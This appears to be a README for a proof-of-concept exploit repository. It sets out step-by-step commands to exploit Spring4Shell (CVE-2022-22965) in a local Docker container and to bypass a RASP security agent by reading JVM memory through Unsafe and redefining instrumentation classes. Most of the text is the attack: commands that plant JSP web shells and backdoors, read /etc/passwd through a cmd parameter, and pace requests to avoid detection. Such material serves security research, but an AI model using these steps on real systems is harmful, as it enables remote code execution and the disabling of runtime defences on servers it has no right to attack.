 This is a PoC where we abuse memory access through unsafe to bypass RASP. The idea is to read the base address of the libjvm and then either read also the symbol or predefine it for a known 
global variable and navigate the memory space until we reach the InstrumentationImpl object representing the agent itself and redefine classes and thus bypass RASP.

We do it step by step to avoid being detected (it looks like when the request parameter exceeds a certain treshold, we get blocked by the agent):
1. mvn clean package
2. cd ..
3. docker build . -t cve-2022-22965-bypass-with-memory-abuse -f bypass-using-memory-abuse/Dockerfile
4. docker run -p 8080:8080 -p 8000:8000 cve-2022-22965-bypass-with-memory-abuse
5. curl http://localhost:8080/exploit/greeting
6. python3 -m pip install -r requirements.txt 
7. Finally deploy your exploit that should have been blocked normally:
   `   python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="exploit" and trigger curl "http://localhost:8080/exploit.jsp?cmd=cat%20/etc/passwd".
   `
![blocked.png](blocked.png)
8. Now deploy jvm base address backdoor: 
`   python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="base", now you can get the base address using curl "http://localhost:8080/base.jsp" -> baseAddress`
![base.png](base.png)
9. Next deploy Redefine_Transformer_Manager jsp that will trigger redefining the transformerManager bytecode:
`    python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="redefineTransformer", you should the base address provided using the first step and issue  curl "http://localhost:8080/redefineTransformer.jsp?cmd={baseAddress e.g 139963791860840}” 
`
![redefineTransformerManager.png](redefineTransformerManager.png)
10. Ok now deploy RedefineProcessBuilder using 
`  python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="redefineProcessBuilder" and trigger the redefinition: curl "http://localhost:8080/redefineProcessBuilder.jsp?cmd={baseAddress}”
`
11. Rerun and Enjoy the bypass:
    `curl "http://localhost:8080/exploit.jsp?cmd=cat%20/etc/passwd" `
You may need to update the base address of JvmtiEnvBase::_head_environment, first ssh in the container, find / -name libjvm.so 2>/dev/null, and finally gdb /usr/local/openjdk-11/lib/server/libjvm.so + info variables and then you have it
`0x0000000000f59750  JvmtiEnvBase::_head_environment`
